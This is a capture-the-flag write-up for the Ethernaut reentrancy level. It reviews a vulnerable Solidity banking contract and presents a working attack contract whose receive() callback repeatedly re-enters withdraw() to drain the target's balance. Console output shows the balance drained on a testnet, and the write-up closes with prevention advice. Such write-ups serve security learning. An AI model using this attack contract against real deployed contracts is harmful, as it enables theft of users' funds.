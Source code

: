 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Challenge's message.

>The goal of this level is for you to steal all the funds from the contract.Things that might help:
Untrusted contracts can execute code where you least expect it.
Fallback methods
Throw/revert bubbling
Sometimes the best way to attack a contract is with another contract.

We have a basic smart contract that performs the banking function. The first thing we look at is it uses the SafeMath library for the type of uint256 variables because of prevents Integer Underflow vulnerability. Also, it has a defined public mapping named **balances** to document the address's balances in the contract. After that, there is **donate()** function to increase the address's balance. And then, we can learn someone's balance with the help of **balanceOf()** method. And finally, we have **withdraw()** function to withdraw the amount from our balance. 

However, there is something in the crash. We will talk about the next part :> In the end of the code, there is a candy. Usually, **receive()** functions are used to get ether for the contract with the low-level contract interaction. In this case, it is left blank. Why?

# Subverting

When we look at the target code from the hacker's perspective, we can clearly show in the withdraw function; the contract updated the balance after sending the amount to the user's address. What's wrong? In the design pattern, devs might think that contract always sends the amount to the user balance only once. Hereby, updating works correctly. But, in the end of the code a **receive()** function which is payable and left bank. It helps us to low level interaction to our attack contract when we want get some ether more. What is more, if we abuse this case to send ether to our address more than once, what will happen?

The entire amount in the contract will be transferred to the attacker's account. Brainful, isn't it? I explained this vulnerability so detail in my [reentrancy repository](https://github.com/wasny0ps/Reentrancy). I strongly recommend this article to understand reentrancy more clearly and learn how to prevent this vulnerability. Let's look our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IReentrancy{

    function donate(address _to) external payable;
    function withdraw(uint _amount) external;

}

contract Attack{

    IReentrancy target;

    constructor(address  _target) {
        target = IReentrancy(_target);
    }

    function attack() external payable{
        target.donate{value: msg.value}(address(this));
        target.withdraw(msg.value);
    }

    receive()external payable{
        if(address(target).balance >= 0.001 ether){
            target.withdraw(0.001 ether);
        }
    }
}
```
Before explain our attack contract, check target contract's balance.
```shell
await getBalance(contract.address)
'0.001'
```
We learned entire amouunt in target contract as **0.001 ether**. Let's convert it to wei.

```shell
await web3.utils.toWei('0.001','ether')
'1000000000000000'
```
After converting it to wei, it's time to explain the attack contract. First of all, this contract is a little bit different than other attack contracts. Because we used the **interface()** method to interact with other contracts easily. Also, before you use the interface, you must add into the interface method the same functions which are in the contract that we want to interact with. Otherwise, you will get an error. That's why, we use an interface to interact with the target contract. After that, get an instance of the target contract with enter the target contract's address in the constructor. 

In the **attack()** contract, it calls donate function and adds some value to our address's balance. In the next step, get ether back from the target contract. When the target contract sends **msg.value** to our attack contract, our **receive()** function welcomes the transaction. And then it calls **withdraw()** function again and again until target's balance less equal than 0.001 ether. While this process, target contract won't be updated the new balance. Thus, we get all money from the target contract. 🤑 

Let's bum out. Deploy the attack contract.

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/deploy.png">

Call attack function with sending 1000000000000000 wei.

<img width="200" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/attack.png">

And [show our hack](https://sepolia.etherscan.io/tx/0xdbaaf42d197de637ed949abc2580b89086e65c34d8135b64f1f2634816cb34fb)!

```shell
await getBalance(contract.address)
'0'
```

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/result.png">

Challenge's message:
>In order to prevent re-entrancy attacks when moving funds out of your contract, use the Checks-Effects-Interactions pattern being aware that call will only return false without interrupting the execution flow. Solutions such as ReentrancyGuard or PullPayment can also be used. transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork Source 1 Source 2.
Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.
Re-entrancy is a common attack. You should always be prepared for it!

**_by wasny0ps_**
